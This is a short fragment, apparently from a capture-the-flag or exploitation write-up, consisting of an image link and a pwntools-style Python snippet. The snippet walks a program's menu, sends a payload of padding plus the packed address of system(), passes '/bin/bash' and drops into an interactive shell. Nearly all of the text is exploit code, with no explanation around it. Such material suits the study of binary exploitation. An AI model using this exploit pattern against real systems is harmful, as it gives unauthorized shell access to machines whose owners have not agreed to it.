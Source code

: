 ```python
s.recv()

s.sendline("333")

s.recv()

s.sendline("1")

s.recv()

s.sendline("AAAA"+p32(system))

s.sendline("/bin/bash")

s.recv()

s.recv()

s.interactive()
```
  

  

![](https://lh3.googleusercontent.com/Jy_cJuQdEI0ZiZHOiqFuAg7h8p2dOft3O-XMYGwZqN4kYjIBvO4lU7sSDXZC3zcW4QMIFJhpB8DZfyFqNn1m4LLZ6SX__P7YBjPFUiKdHI6CLYy03y6HWMGiN2XjRHqYbEtK53Qw)
